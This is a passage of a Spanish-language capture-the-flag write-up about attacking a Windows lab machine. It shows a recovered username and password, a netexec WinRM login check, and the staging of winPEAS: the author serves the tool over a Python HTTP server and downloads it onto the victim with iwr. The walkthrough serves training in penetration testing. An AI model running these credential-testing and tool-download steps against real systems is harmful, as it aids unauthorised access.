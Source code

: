 Efectivamente, podríamos haberla sacado si hubiéramos hecho password spraying, pero hemos validado las nuevas credenciales -> ``hsmith``:``Thestrokes23``

Vamos a comprobar si este nuevo usuario forma parte de ``Remote Management Users`` para poder conectarnos con ``evil-winrm``.

``netexec winrm 10.10.10.175 -u 'hsmith' -p 'Thestrokes23'``
![30](Images/30.png)


Pero no, tenemos ``[-]`` en el output de ``netexec``. Esto quiere decir que no podemos conectarnos a través de winRM con este usuario. No obstante, podríamos intentar otras formas de pivotar desde el usuario fsmith a hsmith.

Sin embargo, antes de seguir con este vector, vamos a explorar más a fondo la máquina víctima.

Vamos a compartir la herramienta ``WinPEAS`` con la máquina víctima. Podemos hacerlo de diferentes maneras. En esta ocasión, vamos a hacerlo a través de servidor http montado con python.

- Primero creamos carpeta temporal en máquina víctima:

``mkdir C:\temp``
![31](Images/31.png)

Una vez creada la carpeta nos movemos a ella.

- Después, desde la máquina atacante, levantamos un servidor http en el directorio que tengamos winPEAS.
``python3 -m http.server 80``

- Acto seguido, desde la máquina víctima, realizamos la solicitud del recurso winPEASx64.exe, apuntando a nuestro servidor http, es decir, nuestra máquina atacante.

``iwr http://10.10.14.8/winPEASx64.exe -o winpeas.exe``
![32](Images/32.png)

